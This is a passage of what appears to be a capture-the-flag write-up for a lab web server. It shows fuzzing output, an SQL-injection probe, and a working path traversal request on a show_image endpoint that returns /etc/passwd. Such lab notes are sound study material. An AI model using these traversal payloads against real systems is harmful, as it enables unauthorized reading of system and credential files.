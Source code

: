```bash
:: Progress: [30000/30000] :: Job [1/1] :: 232 req/sec :: Duration: [0:02:53] :: Errors: 2 ::
```

People that posted on the blog
```
admin
Brandon Auger
```

After uploading things the upload page we get this: 
```
10.10.11.204:8080/show_image?img=hamster.png
```


```bash
curl -i 'http://10.10.11.204:8080/show_image?img=hamster.png;or%201=1%20--%20-'
HTTP/1.1 500
Content-Type: application/json
Transfer-Encoding: chunked
Date: Sun, 12 Mar 2023 18:45:58 GMT
Connection: close

{
  "timestamp":"2023-03-12T18:45:59.095+00:00",
  "status":500,
  "error":"Internal Server Error",
  "message":"URL [file:/var/www/WebApp/src/main/uploads/hamster.png;or%201=1%20--%20-] cannot be resolved in the file system for checking its content length",
  "path":"/show_image"
}
```

huh...
```bash
curl -i 'http://10.10.11.204:8080/show_image?img=../../../../../../../../../etc/passwd'
HTTP/1.1 200
Accept-Ranges: bytes
Content-Type: image/jpeg
Content-Length: 1986
Date: Sun, 12 Mar 2023 18:51:55 GMT

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
```
